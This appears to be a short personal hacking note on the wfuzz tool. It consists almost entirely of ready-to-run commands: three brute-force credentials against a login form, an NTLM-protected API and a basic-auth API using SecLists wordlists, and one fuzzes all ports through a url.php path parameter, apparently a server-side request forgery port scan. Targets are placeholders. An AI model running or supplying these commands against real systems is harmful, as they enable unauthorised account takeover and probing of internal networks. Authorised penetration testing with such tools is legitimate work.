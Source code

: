 

---
tags: 🔻 🔻/🃏 Passwords WFUZZ bruteforce
aliases: Hacking Notes
---

# wfuzz

attempt to use wfuzz to bruteforce a password

`wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://x.x.x.x  `
  
• wfuzz NTLM  
  
`wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api`  

  
`wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p x.x.x.x:8080 https://<ip>/api/v1/`  
  
`wfuzz -c -z range,1-65535 --h1=2 [http://](http://10.10.10.55:6000/url.php?path=127.0.0.1:FUZZ%E2%80%8B)x.x.x.x`